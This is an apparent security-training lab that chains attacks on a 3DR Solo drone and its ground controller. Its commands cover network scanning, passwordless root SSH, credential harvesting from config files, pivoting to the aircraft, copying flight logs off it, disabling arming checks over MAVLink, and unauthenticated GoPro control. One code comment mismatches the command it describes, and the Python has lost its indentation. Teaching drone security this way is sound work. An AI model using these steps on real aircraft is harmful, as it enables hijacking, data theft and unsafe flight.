

Lab: GCS Exploitation
Objectives
The Big Picture (Read This First)
This is the lab that ties Day 1 together into a full attack chain — the exact sequence a professional pentester follows on any target:

Each phase below is one link in that chain. By the end you will have gone from "connected to the drone's WiFi" to "root shell on the aircraft, reading its flight logs and sending it commands" — without ever knowing a single password. Every step reuses a normal Linux/network skill; nothing here is drone-specific magic.
Prerequisites
-
3DR Solo and Sololink powered on (no propellers)
-
Laptop WiFi connected to SoloLink_XXXXXXXX
-
Tools: nmap, ssh, scp, MAVProxy, Wireshark
Phase 1: Enumerate the Network
What is "enumeration"? Before you can attack anything, you need a map: which machines exist, and what services (open doors) each one is running. nmap is the standard tool. -sn does a quick "who's alive?" ping sweep; -sV -p- then knocks on all 65,535 ports of a host and reports what software answers. This is always step one on a real engagement.
# Discover hosts on the SoloLink network
nmap -sn 10.1.1.0/24
# Expected results:
# 10.1.1.1 - 3DR Sololink (GCS)
# 10.1.1.10 - 3DR Solo UAV
# Full port scan on both hosts
nmap -sV -p- 10.1.1.1
nmap -sV -p- 10.1.1.10
Document open ports and services for both hosts.
Phase 2: Access the GCS via SSH
# SSH to the Sololink GCS
ssh root@10.1.1.1
# No password required on stock OpenSolo firmware
# If prompted for password, try:
# (blank)
# sololink
# root
# Once logged in, explore
whoami
uname -a
cat /etc/os-release
ifconfig
netstat -tulpn
What to collect:
# WiFi credentials
cat /etc/wpa_supplicant.conf 2>/dev/null
cat /etc/wpa_supplicant/*.conf 2>/dev/null
# Saved credentials
find / -name "*.conf" | xargs grep -l "password\|psk\|key" 2>/dev/null
# Running services
ps aux
systemctl list-units --type=service 2>/dev/null
# Network configuration
cat /etc/network/interfaces 2>/dev/null
route -n
Phase 3: Pivot to the UAV
# From the Sololink shell:
ssh root@10.1.1.10
# No password on stock OpenSolo
# Now you are on the Solo UAV companion computer
uname -a
cat /etc/os-release
# Identify flight controller connection
ls /dev/ttyS* # UART to flight controller
ls /dev/ttyUSB* # USB serial
# Find MAVLink proxy
ps aux | grep -i mav
Phase 4: Exfiltrate Flight Logs
# On the UAV, find DataFlash logs
find / -name "*.BIN" 2>/dev/null
find / -name "*.log" 2>/dev/null
ls /log/
# From your laptop (separate terminal), copy logs
scp -o StrictHostKeyChecking=no root@10.1.1.10:/log/*.BIN ~/workshop/logs/
Open the .BIN log in QGroundControl (Analyze → Log Files → Open Log) and identify:
-
Flight path (GPS coordinates)
-
Number of flights
-
Arming/disarming events
-
Any anomalous behavior
Phase 5: Interact with MAVLink from the Shell
# On your laptop (connected to SoloLink WiFi)
mavproxy.py --master=udp:10.1.1.10:14550
# In MAVProxy console:
# Read all parameters
MAV> param show *
# Read critical parameters
MAV> param show ARMING*
MAV> param show FS_*
MAV> param show SYSID*
# Modify a parameter (disable arming checks — DANGEROUS in real flight)
# For lab demonstration only:
MAV> param set ARMING_CHECK 0
# Send a command: request all messages
MAV> link add udp:127.0.0.1:14551
# View live telemetry
MAV> status
# Set a mode (works even on armed drone if autopilot accepts it)
MAV> mode GUIDED
Record which parameters you changed and restore them:
MAV> param set ARMING_CHECK 1 # Restore
Phase 6: GoPro HTTP API (if camera is mounted)
# The GoPro Hero 3/4 is accessible at a different IP
# It creates its own WiFi network that the Solo bridges to
# Scan the GoPro
nmap -sV 10.5.5.9
# Access the HTTP API (no authentication)
curl http://10.5.5.9/gp/gpControl/status
curl http://10.5.5.9/gp/gpControl/info
curl http://10.5.5.9/gp/gpControl/command/shutter?p=1 # Start recording
curl http://10.5.5.9/gp/gpControl/command/shutter?p=0 # Stop recording
Phase 7: Demonstrate Command Injection (Demo-Safe)
With an unarmed drone (no propellers), demonstrate unauthorized command via MAVLink:
# Using pymavlink directly
python3 << 'EOF'
from pymavlink import mavutil
import time
# Connect to drone
conn = mavutil.mavlink_connection('udp:10.1.1.10:14550')
# Wait for heartbeat
conn.wait_heartbeat()
print("Heartbeat received from system %d" % conn.target_system)
# Send a do-nothing command to prove connectivity
# MAV_CMD_DO_SET_RELAY (safe: toggles a relay pin, no propellers to spin)
conn.mav.command_long_send(
conn.target_system,
conn.target_component,
mavutil.mavlink.MAV_CMD_REQUEST_AUTOPILOT_CAPABILITIES,
0, 1, 0, 0, 0, 0, 0, 0
)
time.sleep(1)
msg = conn.recv_match(type='AUTOPILOT_VERSION', blocking=True, timeout=3)
if msg:
print("Flight firmware version:", msg.flight_sw_version)
EOF
Findings Summary
| Finding | Host | Service | Severity |
|---|---|---|---|
| Root SSH without password | 10.1.1.1 (GCS) | SSH 22/tcp | Critical |
| Root SSH without password | 10.1.1.10 (UAV) | SSH 22/tcp | Critical |
| Unauthenticated MAVLink | 10.1.1.10 (UAV) | UDP 14550 | Critical |
| GoPro HTTP API unauthenticated | 10.5.5.9 | HTTP 80/tcp | High |
| Flight logs accessible without auth | 10.1.1.10 | SSH / filesystem | High |
| Default WiFi credentials | SoloLink network | WPA2 | High |
Discussion Questions
-
What is the blast radius if an attacker gains root on the Sololink while the drone is flying?
-
How would you harden the Solo's SSH configuration?
-
An insider threat at a security-sensitive facility has a Solo. What data could they exfiltrate before returning the equipment?
-
If you were writing the assessment report, which finding would you escalate first?